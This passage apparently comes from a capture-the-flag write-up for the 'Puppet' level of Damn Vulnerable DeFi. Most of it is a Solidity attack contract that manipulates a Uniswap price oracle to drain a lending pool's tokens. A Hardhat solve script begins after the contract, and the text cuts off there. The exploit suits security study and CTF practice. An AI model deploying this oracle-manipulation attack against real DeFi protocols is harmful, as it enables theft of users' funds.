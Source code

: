 import "../DamnValuableToken.sol";
import "./PuppetPool.sol";
import "./IUniswapExchange.sol";

/**
 * @title PuppetAttack
 * @author teddyctf (https://thesavageteddy.github.io/posts/puppet-damnvulnerabledefi/)
 */

contract PuppetAttack {
    constructor (
        address owner,
        DamnValuableToken token,
        PuppetPool lendingPool,
        IUniswapExchange uniswapExchange,
        address spender,
        uint256 value,
        uint256 deadline,
        uint8 v, bytes32 r, bytes32 s
    ) payable {
        // use permit and transfer tokens to this contract
        token.permit(
            owner,
            spender,
            value,
            deadline,
            v, r, s
        );
        token.transferFrom(owner, address(this), value);

        // swap all our DVTs for ETH
        token.approve(address(uniswapExchange), value);
        uniswapExchange.tokenToEthSwapInput(
            value, // swap all our DVTs
            9.9 * 10**18, // for 9.9 ETH minimum
            block.timestamp + 3600 // deadline (not important)
        );

        // drain lending pool's DVTs, sending them to owner (player)
        uint256 lendingPoolBalance = token.balanceOf(address(lendingPool));
        uint256 ethRequiredToDrain = lendingPool.calculateDepositRequired(
            lendingPoolBalance
        );
        lendingPool.borrow{value: ethRequiredToDrain}(lendingPoolBalance, owner);
    }
}
{{< /code >}}

Relevant Hardhat solve script (full code [here](puppet.challenge.js)):

{{< code language="javascript" title="puppet.challenge.js" id="200" expand="Show" collapse="Hide" isCollapsed="true" >}}
it('Execution', async function () {
    /** CODE YOUR SOLUTION HERE */
